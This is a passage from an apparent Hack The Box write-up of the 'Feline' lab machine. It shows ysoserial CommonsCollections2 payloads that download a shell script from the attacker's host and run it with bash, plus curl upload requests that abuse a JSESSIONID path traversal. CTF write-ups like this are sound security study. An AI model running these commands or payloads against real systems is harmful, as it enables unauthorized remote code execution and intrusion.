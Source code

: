 From there, I needed to download ysoserial: <https://github.com/frohoff/ysoserial> in order to create a serialised object. I'm certain that there are other methods to accomplish this, I just enjoy ysoserial for deserialization attacks. The worst part about this process is determining which commons collection would work for your instance. I generally skip the first one and then work my way down the list. Fortunately, this instance used `CommonsCollections2` which worked! The next step in the process is getting the object to download our file onto the server. We can use a simple server on our side and then wget or curl on the host's infrastructure to pull our payload.

```bat
curl http://10.10.14.49/deserialization.sh -o /tmp/hotshoto.sh
```

The next step in this process was that I needed to create a `.session` file. The final ysoserial command looks as follows:

```bat
vagrant@ko:~/Desktop/HackTheBox/Feline$ java -jar ysoserial.jar CommonsCollections2 'curl http://10.10.14.49/deserialization.sh -o /tmp/hotshoto.sh' > pullPayload.session

Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
```

Finally, I needed to have some method of executing this payload. I created another `.session` file based on this which simply called the first file that I already pulled onto the server.

```bat
vagrant@ko:~/Desktop/HackTheBox/Feline$  java -jar ysoserial.jar CommonsCollections2 'bash /tmp/hotshoto.sh' > execPayload.session
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
```

Uploading the files could be accomplished through the use of file upload and Burpsuite interception to change the `JSESSIONID`, however curl works just as well and it's a very simple payload to execute. I needed to start a python server on my side: `python3 -m http.server 80` in order to have the serialised object pull the required reverse shell file:

```bat
curl 'http://10.10.10.205:8080/upload.jsp' -H 'Cookie: JSESSIONID=../../../../../opt/samples/uploads/pullPayload' -F 'image=@pullPayload.session'
```
```bat
curl 'http://10.10.10.205:8080/upload.jsp' -H 'Cookie: JSESSIONID=../../../../../opt/samples/uploads/execPayload' -F 'image=@execPayload.session'
```

What this is doing is uploading the files on disk to the session variable:

<p class="imgMiddle">